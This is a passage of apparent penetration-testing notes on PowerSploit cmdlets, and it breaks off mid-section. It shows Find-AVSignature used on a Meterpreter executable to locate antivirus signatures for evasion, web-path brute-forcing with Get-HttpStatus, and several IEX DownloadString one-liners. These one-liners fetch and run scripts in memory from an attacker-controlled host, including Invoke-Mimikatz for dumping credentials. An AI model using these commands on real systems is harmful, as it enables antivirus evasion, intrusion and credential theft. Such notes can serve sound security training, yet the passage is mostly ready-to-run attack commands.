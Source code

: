 Run the script on a Meterpreter Windows Executable: 

**Find-AVSignature -StartByte 0 -EndByte 6144 -Interval 50 -Path C:testexemptnc.exe -OutPath c:usersmasterDesktopmsf.exe -OutPath c:usersmasterDesktoprun1 -Verbose**

The anti-virus has detected the msf.exe and the parts with the AVSignature are visable. 

##### Invoke-ReverseDnsLookup

This cmdlet gives ust the ability to find the DNS Pointer Records for their corresponding IP addresses.

Install Recon PowerShell Script: 

**IEX (New-Object Net.WebClient).DownloadString(“http://10.0.0.14:8000/Recon/Invoke-ReverseDnsLookup.ps1”)**


Execute the cmdlet: 

**Invoke-ReverseDnsLookup -IpRange <IP_Address/Range>**

##### Get-HttpStatus

Used to dictionary a web server in order to find the HTTP status of a path on the HTTP/HTTPS service. 

Cons: 

1. Doesn't have a lot of features
2. Doesn't support nested dictionary attack 
    - Only accepts a file containing a path name/file name


**IEX (New-Object Net.WebClient).DownloadString(“http://10.0.0.14:8000/Recon/Get-HttpStatus.ps1”)** # install 

**Get-HttpStatus -Target 10.0.0.7 -Path c:usersmasterDesktopdirectory-list-2.3-small.txt**

If the website is using SSL, there is a switch that can be used to send HTTPS requests: 

**Get-HttpStatus -Target 10.0.0.7 -Path c:usersmasterDesktopdirectory-list-2.3-small.txt -UseSSL**

If the service is running on some other port, the **-Port** switch can be used:

**Get-HttpStatus -Target 10.0.0.7 -Path c:usersmasterDesktopdirectory-list.txt -Port 8080**

##### Invoke-Mimikatz

A benefit over using this cmdlet over the MimiKatz executable, is that it remains in memory and can be used to dump, 

1. Credentials
2. Certificates
3. Etc. 


**IEX (New-Object Net.WebClient).DownloadString(“http://10.0.0.14:8000/Exfiltration/Invoke-Mimikatz.ps1”)** # installl 

Dump credentials using:
